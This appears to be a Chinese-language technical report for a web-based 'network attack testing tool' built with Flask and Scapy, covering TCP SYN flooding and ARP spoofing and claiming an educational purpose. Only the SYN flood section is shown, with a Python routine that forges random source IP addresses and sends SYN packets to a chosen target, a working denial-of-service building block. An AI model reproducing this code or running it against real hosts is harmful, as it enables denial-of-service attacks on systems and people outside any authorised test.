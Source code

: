 # 网络攻击测试工具技术实现报告

## 1. 项目概述

本项目旨在开发一个具有Web界面的网络攻击测试工具，主要实现两种常见的网络攻击方式：TCP SYN洪水攻击和ARP欺骗攻击。本工具仅供网络安全测试和教育目的使用，用于帮助用户理解常见网络攻击的工作原理及防御措施。

## 2. 系统架构

系统采用前后端分离的架构设计，主要分为以下几个部分：

### 2.1 前端界面
- 基于HTML5、CSS3和JavaScript实现
- 使用Bootstrap 5框架构建响应式UI
- 采用暗色主题设计，提供专业化的视觉体验

### 2.2 后端服务
- 使用Python语言编写
- 基于Flask Web框架提供REST API服务
- 采用模块化设计，分离业务逻辑和应用层

### 2.3 攻击工具模块
- 基于Scapy库实现底层网络数据包操作
- 采用多线程技术提高攻击效率
- 实现实时状态跟踪和进度反馈机制

## 3. 功能实现

### 3.1 TCP SYN洪水攻击

#### 3.1.1 技术原理
TCP SYN洪水攻击利用TCP三次握手协议的漏洞，通过发送大量带有伪造源IP地址的SYN请求包，但不完成后续握手步骤，使目标服务器资源被大量半开连接占用，最终导致拒绝服务。

#### 3.1.2 实现方法
```python
def syn_flood_thread():
    # 创建随机源IP
    source_ip = f"{random.randint(1, 254)}.{random.randint(1, 254)}.{random.randint(1, 254)}.{random.randint(1, 254)}"
    # 创建随机源端口
    source_port = random.randint(1024, 65535)
    
    # 构建SYN数据包
    packet = IP(src=source_ip, dst=target_ip) / TCP(sport=source_port, dport=target_port, flags="S")
    
    # 发送数据包
    send(packet, verbose=0)
```
